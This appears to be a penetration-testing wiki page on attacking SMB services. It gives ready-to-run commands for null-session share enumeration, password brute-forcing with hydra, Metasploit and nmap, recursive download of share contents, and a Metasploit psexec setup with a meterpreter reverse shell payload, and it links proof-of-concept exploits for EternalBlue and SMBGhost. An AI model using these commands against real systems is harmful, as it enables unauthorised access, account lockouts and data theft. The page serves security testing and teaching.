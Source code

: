 # 🛠️ SMB

## Theory

SMB (Server Message Block) is a protocol running on port 445/tcp. It is used to share access to files, printers and serial ports on a network

In 1996 Microsoft releases a customized SMB they call CIFS (Common Internet File System). CIFS can sometimes be referred to as SMB1 (or SMBv1, SMB 1.0). In 2006, Microsoft introduced SMB2 (also referred to as SMB 2.0), a new version of the CIFS protocol. In 2012, Microsoft released SMB3 (a.k.a. SMB 3.0). As of 2020, most systems use SMB 2.0 or above.

In short, SMB is the protocol, CIFS is an old dialect of SMB, and Samba is the Linux/UNIX-like implementation of the SMB protocol (see [this](http://thewindowsupdate.com/2020/02/21/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/)).

## Practice

### Null session

The null session, if not disabled, allows for anonymous/guest access to a network resource when using no credentials

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) (C) and [smbmap](https://github.com/ShawnDEvans/smbmap) (Python) can be used to access SMB shares with null sessions. Null credentials do not have to be explicitly set in this case.

```bash
# List shares
smbclient --list //$IP
smbmap -H $IP

# List shares (implicit null creds)
smbclient --no-pass --list //$IP

# List shares (explicit null creds)
smbclient --user ''%'' --list //$IP
smbmap -u '' -p '' -H $IP

# Open an interactive session to operate on a specific share
smbclient //$IP/$SHARE_NAME
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to test for null session on multiple hosts.

```bash
crackmapexec smb $TARGETS -u '' -p '' --shares
```
{% endtab %}

{% tab title="Windows" %}
The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

{% hint style="warning" %}
If null credentials are not explicitly set, Windows will natively use implicit credentials (e.g. Kerberos tickets in cache, logged on user creds or computer account)
{% endhint %}

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```
{% endtab %}
{% endtabs %}

### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

{% hint style="danger" %}
In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.
{% endhint %}

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With crackmapexec
crackmapexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

### 🛠️ Authenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
```

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

{% hint style="warning" %}
File uploading, creating, starting, stopping, deletion of services makes it really noisy.
{% endhint %}

**Smbexec** works like **Psexec**, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py" %}
Exploit
{% endembed %}

{% hint style="info" %}
**%COMSPEC%** is the environment variable that generaly points to the command line interpreter. (_cmd.exe, powershell.exe_...)
{% endhint %}

{% hint style="info" %}
The purpose of using **/Q** option of cmd is to stop displaying output. (je crois que ça veut dire /quiet à vérifier)
{% endhint %}

{% hint style="warning" %}
Prioritize using **Smbexec** when you detect a strong AV, `cmd.exe`is a trusted component of the operating system.
{% endhint %}

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py" %}
Exploit
{% endembed %}

DCOM is a way for a computer to run a program over the network on a different computer as if the program was running locally.

Dcomexec has a similar approach to psexec but it is executing commands through DCOM.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py" %}
Exploit
{% endembed %}

Crackmapexec is a swiss army that has featured a lot of the command execution methods mentionned precedently.

One of its feature is to automate the process of executing code via SMB by switching between methods when one fails.

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

### 🛠️ Unauthenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the **SMBv1** server. Other related exploits were labelled as`Eternalchampion`, `Eternalromance` and `Eternalsynergy.`

{% embed url="https://github.com/worawit/MS17-010" %}
POC
{% endembed %}

Smbghost is a bug occuring in the decompression mechanism of client message to a **SMBv3.11** server. This bug leads remotely and without any authentication to a **BSOD or an RCE** on the target.

{% embed url="https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-0796-RCE-POC" %}
POC
{% endembed %}

Smbleed allows to **leak kernel** memory remotely, it is also occuring in the same decompression mechanism as smbghost.

In order for the target to be vulnerable, it must have the **SMBv3.1.1** implementation running and the compression function enabled, which is on by **default**.

{% embed url="https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-1206-POC" %}
POC
{% endembed %}

## References

{% embed url="https://pandorafms.com/blog/what-is-wmi/" %}

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-smb" %}

{% embed url="https://www.varonis.com/blog/dcom-distributed-component-object-model/" %}

{% embed url="https://www.optiv.com/blog/owning-computers-without-shell-access" %}
